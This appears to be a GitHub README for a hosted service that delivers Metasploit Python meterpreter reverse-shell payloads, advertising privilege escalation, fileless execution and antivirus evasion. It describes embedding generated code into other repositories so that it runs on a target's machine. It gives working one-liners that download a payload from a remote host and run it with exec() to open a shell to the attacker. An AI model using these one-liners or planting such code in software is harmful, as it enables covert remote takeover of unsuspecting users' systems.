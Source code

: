 # easysploit-server
## Overview
Easysploit Server is a tool designed to generate, customize, and manage Metasploit reverse_tcp payloads. It simplifies exploitation with built-in admin privilege escalation, and AV evasion capabilities, supporting fileless execution for fast, undetectable operations.
Easysploit server is now working on https://easysploit.rocknroll17.com.

## Features
- Custom Reverse_TCP Payloads
- Admin Privilege Escalation
- Fileless Execution (Memory-based)
- Anti-Virus Evasion

## Scenario
1. **Generate Exploit Code using easysploit-client**
Use easysploit-client to generate the exploit code. The generated code requests a payload from easysploit-server and executes it in a fileless manner.
2. **Embed the Exploit Code**
Insert the generated exploit code into other repositories or Python code to be executed on the target system.
3. **Execute on Target System**
When the exploit code is executed on the target system, it sends a request to easysploit-server for the payload.
4. **Fileless Execution**
The easysploit-server delivers the payload and executes it filelessly in memory without leaving traces on the disk.

## Installation
You don't need to run this server.
It is already working on https://easysploit.rocknroll17.com.

## Usage
### Available Endpoints
1. **Standard python Reverse TCP Payload**
Endpoint: `/python/meterpreter/reverse_tcp`
2. **Admin Privilege Reverse TCP Payload**
Endpoint: `/python/meterpreter/reverse_tcp/admin`

### Request Body
Both endpoints require the same JSON payload:
```
{
  "LHOST": "Attacker's IP",
  "LPORT": Attacker's listening port
}
```

## Example Code
Insert this code where you gonna exploit.
1. **Standard python Reverse TCP Payload**
```
import urllib.request, json
exec(urllib.request.urlopen(urllib.request.Request("https://easysploit.rocknroll17.com/python/meterpreter/reverse_tcp", data=json.dumps({"LHOST": "Attacker's IP", "LPORT": Attacker's listening port}).encode(), headers={'Content-Type': 'application/json'})).read().decode())
```
2. **Admin Privilege Reverse TCP Payload**
```
import urllib.request, json
exec(urllib.request.urlopen(urllib.request.Request("https://easysploit.rocknroll17.com/python/meterpreter/reverse_tcp/admin", data=json.dumps({"LHOST": "Attacker's IP", "LPORT": Attacker's listening port}).encode(), headers={'Content-Type': 'application/json'})).read().decode())
```
